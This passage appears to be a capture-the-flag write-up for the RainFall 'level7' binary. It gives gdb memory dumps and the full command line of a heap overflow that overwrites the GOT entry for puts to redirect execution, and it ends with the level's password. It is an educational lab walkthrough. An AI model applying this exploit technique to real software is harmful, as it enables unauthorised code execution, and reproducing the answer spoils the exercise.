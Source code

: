 	(gdb) x/20wx 0x0804a000
		0x804a000:	*0x42424242*	0x00000000	0x00000001	0x0804a018
		0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
		0x804a020:	0x41414141	0x41414141	0x41414141	0x0804a000

Now there lies our second argument "BBBB\0". Let's try to change this 0x0804a000 to some real address:

	Starting program: /home/user/level7/level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') BBBB

Why 20? Because under address **0x804a018** should be 16 + 4 bytes to come to address that is now 0x0804a000.

	Breakpoint 10, 0x080485c2 in main ()
	(gdb) x/50wx $esp
		0xbffff6b0:	0x08049928	0xbffff8d5	0xb7fd0ff4	0xb7e5ee55
		0xbffff6c0:	0xb7fed280	0x00000000	|0x0804a028|	|0x0804a008|
		0xbffff6d0:	0x08048610	0x00000000	0x00000000	0xb7e454d3
		0xbffff6e0:	0x00000003	0xbffff774	0xbffff784	0xb7fdc858
		0xbffff6f0:	0x00000000	0xbffff71c	0xbffff784	0x00000000
		0xbffff700:	0x0804825c	0xb7fd0ff4	0x00000000	0x00000000
		0xbffff710:	0x00000000	0x5c587dae	0x6b1c99be	0x00000000
		0xbffff720:	0x00000000	0x00000000	0x00000003	0x08048440
		0xbffff730:	0x00000000	0xb7ff26b0	0xb7e453e9	0xb7ffeff4
		0xbffff740:	0x00000003	0x08048440	0x00000000	0x08048461
		0xbffff750:	0x08048521	0x00000003	0xbffff774	0x08048610
		0xbffff760:	0x08048680	0xb7fed280	0xbffff76c	0xb7fff918
		0xbffff770:	0x00000003	0xbffff8a3
	(gdb) x/20wx 0x0804a008
		|0x804a008|:	0x00000001	0x0804a018	0x00000000	0x00000011
		0x804a018:	0x41414141	0x41414141	0x41414141	0x41414141
		|0x804a028|:	0x41414141	**0x08049928**	0x00000000	0x00000011
		0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
		0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
	(gdb) x/20wx 0x08049928
		0x8049928 <puts@got.plt>:	*0x42424242*	*0x08048400*	0xb7e453e0	0x08048436
		0x8049938 <data_start>:	0x00000000	0x00000000	0x00000000	0x00000000
		0x8049948:	0x00000000	0x00000000	0x00000000	0x00000000
		0x8049958:	0x00000000	0x00000000	0x00000000	0x00000000
		0x8049968 <c+8>:	0x00000000	0x00000000	0x00000000	0x00000000

We see that we changed real `puts` address to "BBBB". Before it was 0x8049928. And it is called from `main` under 0x08048400:
   
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>

That is how we can change real `puts` to `m` using two arguments sent to binary level7!

# Result

    level7@RainFall:~$ ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')						5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 	- 1636538566
